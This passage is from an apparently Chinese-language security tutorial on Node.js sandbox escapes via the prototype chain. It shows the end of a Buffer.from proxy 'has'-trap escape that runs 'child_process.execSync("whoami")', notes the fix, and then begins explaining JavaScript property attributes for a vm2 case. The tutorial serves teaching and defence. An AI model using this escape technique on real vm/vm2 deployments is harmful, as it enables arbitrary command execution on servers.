 ```js
};

// 接下来，这里检查一个空字符串 "" 是否存在于 Buffer.from 对象中，
// 这是因为 Buffer.from 对象是一个代理对象，代理了 Buffer 构造函数，所以这一步操作并没有实际意义
// 只是为了做一个触发点，让其去寻找属性为【""】的属性，但是这个属性肯定是没有的，然后它就会找上原型中定义的has方法
// 这个has方法也是有点特殊，可以说是每个对象都可能存，然后在原型中找了has方法，然后执行它
"" in Buffer.from;

// 然后因为执行了has方法，并且通过buffer是原生模块拿到外部的process模块，所以可以执行命令
process.mainModule.require("child_process").execSync("whoami").toString()
```

>    **以上就是通过原型链突破了沙箱环境从而拿到了外部的模块，从而执行命令的案例**
>
>   **这个的修复方案也就是在buffer.from中添加has方法，因为本身已经有了所以就不会去原型上找**

##### **vm2案例**

**js的三个属性**

>   **数据属性和访问器属性都存在 `[[Enumerable]]` 和 `[[Configurable]]` 特性**
>
>   -   `Enumerable `特性用于控制属性是否可以被 for...in 循环遍历，
>       -   以及是否可以通过 Object.keys()、Object.values()、Object.entries() 等方法获取到
>   -   `Configurable `特性用于控制属性是否可以被删除或修改。

-   **数据属性**

    -   数据属性包含一个可以读取和写入属性值的变量，并且`Writable`控制这个值是否可改变，**默认可改变**

-   **访问器属性**

    -   访问器属性不包含数据值，而是包含一对 getter 和 setter 函数，默认为`undefined`

    -   设置对象的访问器属性，也就个get、set属性

        -   ```js
            --------------正常用法---------------------
            var num= {
                a: 2,
                get b(){
                    return 2;
                }   
            };
            console.log(num.a);//2
            console.log(num.b);//2
            
            --------------定义在原型链上---------------------
            
            let obj0 = {};
            Object.defineProperty(obj0, "prop", {
                get(){
                    return "get";
                }
            })
            // 结果就是调用get方法，并输出get字符串
            console.log(obj0.prop);
            